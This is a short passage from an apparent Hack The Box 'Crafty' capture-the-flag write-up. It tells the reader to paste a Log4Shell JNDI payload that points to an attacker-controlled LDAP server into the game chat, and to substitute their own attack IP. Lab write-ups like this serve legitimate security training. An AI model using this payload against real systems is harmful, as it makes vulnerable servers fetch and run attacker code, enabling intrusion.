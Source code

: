 ![htb-crafty-06.png](/assets/posts/htb-crafty/htb-crafty-06.png)

Run the following payload in chat as you can see in the screenshot below.

```
${jndi:ldap://10.10.14.86:1389/#Log4jShell}
```

Replace `10.10.14.86` with your attack host's IP address.
